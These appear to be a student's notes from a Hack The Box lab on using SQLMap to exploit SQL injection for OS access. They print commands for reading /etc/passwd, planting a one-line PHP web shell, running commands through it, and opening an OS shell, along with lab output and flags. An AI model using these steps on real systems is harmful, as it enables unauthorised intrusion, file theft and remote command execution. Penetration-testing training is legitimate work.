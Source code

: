 # OS Exploitation

SQLMap has the ability to utilize an SQL Injection to read and write files from the local system outside the DBMS.
SQLMap can also attempt to give us direct command execution on the remote host if we had the proper privileges.

An example of such a command is:
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;

## Checking for DBA Privileges

sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

current user is DBA: False
current user is DBA: True

## Reading Local Files

sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...

## Writing Local Files

echo '<?php system($_GET["cmd"]); ?>' > shell.php
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

curl http://www.example.com/shell.php?cmd=ls+-la
total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...

## OS Command Execution

sqlmap -u "http://www.example.com/?id=1" --os-shell

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output

sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

os-shell> ls -la

## LAB

sqlmap -u 'http://83.136.251.235:55237/?id=1' --is-dba

[20:47:31] [INFO] testing if current user is DBA
[20:47:31] [INFO] fetching current user
current user is DBA: True

sqlmap -u 'http://83.136.251.235:55237/?id=1' --file-read "/var/www/html/flag.txt"

[20:48:22] [INFO] the local file '/home/htb-ac-786011/.local/share/sqlmap/output/83.136.251.235/files/_var_www_html_flag.txt' and the remote file '/var/www/html/flag.txt' have the same size (31 B)
files saved to [1]:
[*] /home/htb-ac-786011/.local/share/sqlmap/output/83.136.251.235/files/_var_www_html_flag.txt (same file)

cat /home/htb-ac-786011/.local/share/sqlmap/output/83.136.251.235/files/_var_www_html_flag.txt
HTB{5up3r_u53r5_4r3_p0w3rful!}

sqlmap -u 'http://83.136.251.235:55237/?id=1' --os-shell

os-shell> ls -l /root/
do you want to retrieve the command standard output? [Y/n/a] Y
[20:51:47] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[20:51:47] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output

sqlmap -u 'http://83.136.251.235:55237/?id=1' --os-shell --technique=E

os-shell> ls -l /root/
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'ls: cannot open directory '/root/': Permission denied'
os-shell> find / -name *flag*;

os-shell> find / -name *flag*;
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
/var/www/html/flag.txt
/flag.txt
---
os-shell> 

cat /flag.txt
'HTB{n3v3r_run_db_45_db4}'